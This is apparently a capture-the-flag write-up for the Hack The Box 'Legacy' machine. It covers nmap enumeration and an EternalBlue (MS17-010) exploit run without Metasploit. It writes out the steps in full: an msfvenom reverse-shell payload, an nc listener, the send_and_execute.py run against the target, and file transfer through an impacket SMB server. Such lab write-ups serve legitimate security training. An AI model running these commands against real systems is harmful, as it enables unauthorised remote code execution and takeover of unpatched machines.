

# Legacy without Metasploit

## Enumeration

### Run nmap scan: 

#### **`nmap -T4 -p- -A 10.10.10.4`**

* -T4 flag is to speed the scan up a bit. T3 is the default if this is not specified.
* -A flag will enable Operating system, version detection, script scanning, and traceroute.
* -p- flag will scan for all 65,535 ports. By default, if this is not specified, nmap will scan the top 1000 ports.


#### Dissecting the Results:

* **Port 139:** Running Microsoft Windows netbios-ssn.
* **Port 445:** Running Windows XP microsoft-ds.
* **Host script results:** Definitely a Windows XP machine.
* **SMB-security-mode:** Message signing is disabled, which means an SMB Relay attack could work, but for this box, it will not be done for this instance.

Looks like our only option is to use an SMB exploit. Let's enumerate further with nmap smb vulnerability scripts.

```text
nmap -v -script smb-vuln* -p 139,445 10.10.10.4
```

Breaking down the command above:

* v Flag - Makes the output verbose, giving more details as to what is happening.
* script Flag - Declares we will be using a script. A script must be entered after declaring this flag.
* smb-vuln\* - Utilizes every script beginning with smb-vuln.
* p Flag - Ports to run the scripts against, in this case, it is ports 139 and 445.


The results of the script show that it is vulnerable to CVE-2008-4250 and CVE-2017-0143. Normally, RCE \(Remote Code Execution\) is prioritized over everything, but both CVE utilize RCE. The server is using SMBv1 and since the Risk Factor is high, I will be going with CVE-2017-0143 \(ms17-010\), otherwise known as EternalBlue.

## Exploitation

Eternal Blue is a vulnerability that exploited Microsoft's SMB protocol, where a specially crafted packet allowed an attacker to execute arbitrary code on the target machine.

First, I must download an exploit. A good one to check out is:

```text
git clone https://github.com/helviojunior/MS17-010.git
```

Next, I will use msfvenom to generate a payload that will create a reverse shell on the Windows machine:

```text
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.95 LPORT=7777 -f exe > eternal.exe
```

Then I will set up a listener on our attacking machine:

```text
nc -nlvp 7777
```

Run the exploit:

```text
python send_and_execute.py 10.10.10.4 /opt/eternal.exe
```


Get reverse shell:


### Root.txt and User.txt

We can actually get the root and user flags very simply without any escalation needed for this box and can stop here if we wish. Read further to see how we could transfer over whoami.exe via smbserver.py and figure out what user we are and what privileges we have.


### Enumerating User and Privileges

To figure out what user I am and what are my privileges, I attempted `whoami`  and `echo %username%` only to fail.

Kali has a whoami executable \(to find, type `locate whoami.exe`\) located at /usr/share/windows-resources/binaries/whoami.exe and we can export this file to the Windows machine. Certutil.exe is not recognized on the Windows machine, which is the curl/wget equivalent to Linux so we cannot transfer files with the `python -m SimpleHTTPServer 80` command.

We must run a SMB server to share files, and we can do this by first locating and running smbserver.py  to share the directory that contains whoami.exe. 

First, we run `locate smbserver.py` which brings back \(for me\) /usr/share/doc/python3-impacket/examples/smbserver.py



Then, we must run the smbserver.py and have it host a folder, which we will name "temp" and within temp, will be the directory leading to whoami.exe which is shown below:

```text
python3 /usr/share/doc/python3-impacket/examples/smbserver.py temp /usr/share/windows-resources/binaries/
```


Let's confirm we can connect to the SMB temp share:

```text
smbclient //10.10.14.95/TEMP
```


Let's try connecting and running whoami.exe on our victim machine:


We are NT Authority\System and have the highest level of privileges. There is no need to escalate privileges for this box.

## Lessons Learned

Always ensure your systems are patched and up to date. If the MS17-010 security update had been applied, we would've needed to find a different method to exploit this machine.

